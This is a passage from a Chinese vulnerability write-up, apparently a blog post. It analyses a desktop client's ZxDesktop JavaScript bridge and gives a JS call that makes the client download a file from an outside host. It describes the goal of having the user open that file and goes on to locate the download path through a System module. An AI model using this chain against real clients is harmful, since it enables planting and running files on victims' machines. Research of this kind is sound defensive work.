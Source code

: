 [![](assets/1703487068-1dc355068a767b628fda2cb6cb0eef96.png)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image041.png)

至此，我们就获得了文件下载的攻击路径，我们可以根据对应参数这样构建JS代码：

```javascript
ZxDesktop.require("File").save({"url": "http://gh0st.cn:81/test.txt","name": "test.txt","path": "","chunkSize": "","size": "","fileData": ""});
```

我们已经获得了文件下载的功能，攻击路径就很明显了：用户下载文件，打开文件。但是实际操作中，我们打开文件还缺少一个路径，并且在实际的测试中，默认情况下，下载的文件是会保存在应用的数据目录的null目录下。

而这个目录可能会被用户更改（用户名也没法获取），所以我们需要搭配一个点去获取路径，在这里找到了ZxDesktop的System模块：

[![](assets/1703487068-8624167d01b08659f8189e1e84d23234.png)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image045.png)
